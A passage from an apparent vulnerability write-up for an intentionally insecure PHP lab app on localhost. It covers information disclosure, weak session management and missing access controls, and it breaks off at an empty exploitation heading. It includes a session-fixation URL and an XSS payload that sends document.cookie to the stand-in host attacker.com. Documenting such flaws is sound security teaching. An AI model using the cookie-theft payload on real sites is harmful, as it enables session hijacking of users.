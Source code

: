 **Database Credentials Exposed**:
```
http://localhost:8080/settings.php
```
(Credentials displayed in plain text)

**Verbose Error Messages**:
- SQL errors show full queries
- File paths disclosed in error messages
- Stack traces visible

**HTML Comments**:
```html
<!-- Debug Query: SELECT * FROM users WHERE username = 'admin' -->
<!-- Debug: Add ?info=1 to see phpinfo() -->
```

---

### 9. Weak Session Management

**Severity**: MEDIUM

#### Vulnerabilities:
- No session timeout enforcement
- Session ID in URL possible
- No session regeneration after login
- No HTTP-only flag on cookies
- No Secure flag (if HTTPS)

#### Exploitation:

**Session Fixation**:
```
http://localhost:8080/index.php?PHPSESSID=attacker_chosen_id
```

**Session Cookie Theft via XSS**:
```javascript
document.location='http://attacker.com/?cookie='+document.cookie;
```

---

### 10. Missing Access Controls

**Location**: Multiple endpoints
**Severity**: HIGH

#### Vulnerabilities:
- API endpoints accessible without authentication
- No role-based access control (RBAC)
- Admin functions accessible to regular users
- No CSRF protection

#### Exploitation:
